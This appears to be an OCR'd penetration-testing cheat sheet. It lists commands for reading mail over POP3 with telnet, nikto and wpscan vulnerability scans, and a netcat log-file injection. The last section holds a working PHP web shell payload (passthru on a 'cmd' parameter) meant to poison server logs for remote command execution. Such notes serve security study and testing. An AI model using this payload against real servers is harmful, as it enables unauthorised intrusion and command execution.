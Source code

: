## get mails via pop3

```
# connect
telnet target-ip 110

# login
USER username
PASS password

# list emails
LIST

# retrieve emails
RETR 1
```

---

# nikto
- service: http
- tactics: enumeration

## scan website for vulnerabilities
- `nikto -C all -h http://target-ip`

---

# wpscan
- service: http
- tactics: enumeration

## scan wordpress installation for vulnerabilities
- `wpscan --url http://target-ip/ --enumerate p`

---

# nc
- service: all
- tactics: enumeration
- tactics: inital_access

## logfile injection
```
nc target-ip target-port
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: <IP>
Connection: close
```
        